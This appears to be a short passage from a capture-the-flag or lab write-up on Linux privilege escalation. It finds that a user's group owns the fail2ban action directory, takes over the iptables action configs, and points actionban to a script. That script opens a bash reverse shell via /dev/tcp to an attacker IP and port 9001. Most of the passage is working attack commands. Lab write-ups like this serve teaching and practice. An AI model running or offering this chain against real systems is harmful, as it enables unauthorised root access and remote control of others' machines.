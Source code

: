 ```bash
find / -user michael 2>/dev/null | less # Then hit & then ! to do a non-match have to do this everytime when doing a non-match
\/var/www
\/home
...
there is no interesting files that michael has ownership of

#let's check groups
groups

result:
michael security

#Let's see what files the group has ownership of
find / -group security 2>/dev/null | less

result:
/etc/fail2ban/action.d

find / -group security 2>/dev/null -ls | less

result:
we have read/write/executable privilege
```

Now we can change the configurations of fail2ban files. However the files are read only, but because we have ownership of the whole directory, we can:

```bash
cd /etc/fail2ban/action.d
mv iptables-multiport.conf iptables-multiport.conf.bak
cp iptables-multiport.conf.bak iptables-multiport.conf

mv iptables.conf iptables.conf.bak
cp iptables.conf.bak iptables.conf
#now we have complete ownership of the file and are able to write to it

Now let's change the action ban so we can execute a reverse shell
vi iptables-multiport.conf  #
vi iptables.conf
#Find actionban
actionban = /dev/shm/shell.sh##

sudo /etc/init.d/fail2ban restart
```

Let’s create file /dev/shm/shell.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.132/9001 0>&1
```

Listening port
